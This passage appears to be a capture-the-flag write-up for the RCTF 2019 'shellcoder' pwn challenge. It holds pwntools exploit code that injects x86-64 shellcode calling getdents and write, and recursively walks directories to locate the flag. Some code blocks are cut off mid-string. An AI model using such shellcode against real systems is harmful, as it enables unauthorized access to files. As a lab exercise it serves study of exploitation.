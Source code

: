 ```python
	mov rdi,rax
	mov rsi,rsp
	mov rdx,0x200
	xor rax,rax
	mov al,78
	syscall

	mov rdi,1
	mov rsi,rsp
	mov rdx,0x400
	xor rax,rax
	mov al,1
	syscall
	'''.format(push_path(seek))
	p.send("\x90"*0x7+asm(sh))
	data=p.read()
	r,f=getinfo(data,flag)
	p.close()
	return r,f

def fuck(path):
	print path
	try:
		res,f=exp(path)
		if res==[] and "flag" in f:
			print "[+]"+path
		elif res!=[]:
			for x in res:
				fuck(path+x+"/")
		return

	except:
		return 

fuck("./flag/rrfh/")
```
Ten Years Later...

I get the path !:`./flag/rrfh/lmc5/nswv/1rdr/zkz1/pim9/flag`
# EXP
```python
from pwn import *
def getend(n):
	idx=0
	for x in n:
		if x=='\x00':
			return idx	
		idx+=1
	return -1
def getinfo(data,flag=0):
	d=0
	res=[]
	f=[]
	while(d<len(data)):
		reclen=ord(data[d+0x10])
		if reclen == 0:
			break 
		dtype=ord(data[d+reclen-1])
		namelen=getend(data[d+0x12:])
		if dtype==4 and data[d+0x12:d+0x12+namelen]!="." and data[d+0x12:d+0x12+namelen]!="..":
			res.append(data[d+0x12:d+0x12+namelen])
		elif dtype!=4 and data[d+0x12:d+0x12+namelen]!="." and data[d+0x12:d+0x12+namelen]!="..":
```

[1]: https://github.com/n132/Watermalon/tree/master/RCTF-2019/pwn/shellcoder
[2]: https://cloud.tencent.com/developer/article/1143454